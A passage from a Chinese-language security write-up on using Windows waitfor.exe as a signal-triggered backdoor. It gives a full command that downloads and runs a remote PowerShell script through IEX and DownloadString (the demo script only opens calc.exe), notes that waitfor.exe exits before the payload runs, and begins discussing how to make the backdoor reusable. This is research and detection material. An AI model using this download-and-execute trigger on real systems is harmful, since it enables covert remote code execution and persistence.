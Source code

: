 #### 利用思路

Daniel Bohannon‏ @danielhbohannon在twitter上分享了他的利用思路：将waitfor接收信号后的操作设置为从远程服务器下载powershell代码并执行

地址如下：

https://twitter.com/danielhbohannon/status/872258924078092288

细节如下图

![](images/security_wiki/15906330167602.png)


此外，他还提到了一个有趣的技巧：如果将powershell代码设置为延期执行，那么接收信号后，后台将不存在进程waitfor.exe

我验证了这个结论，方法如下：

**开启等待模式：**

cmd：

```bash
waitfor test1 && && powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1')

```

**发送信号：**

cmd：

```bash
waitfor /s 127.0.0.1 /si test1

```

https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1的内容如下：

```bash
Start-Sleep -Seconds 10;
start-process calc.exe;

```

当成功接收信号后，进程waitfor.exe退出

接着执行powershell脚本，等待10秒再启动calc.exe

这10秒内，只存在进程powershell.exe

也就是说，如果把等待时间设置更长，那么再这一段等待时间内不存在进程waitfor.exe，提醒防御者注意这个细节

### poc细节

如果作为一个后门，那么上面的利用方法还不够成熟

因为触发一次后，进程waitfor.exe将退出，导致该后门无法重复使用

需要再次开启一个等待模式，才能再次触发后门

当然，可以在每次后门触发后手动开启一个等待模式
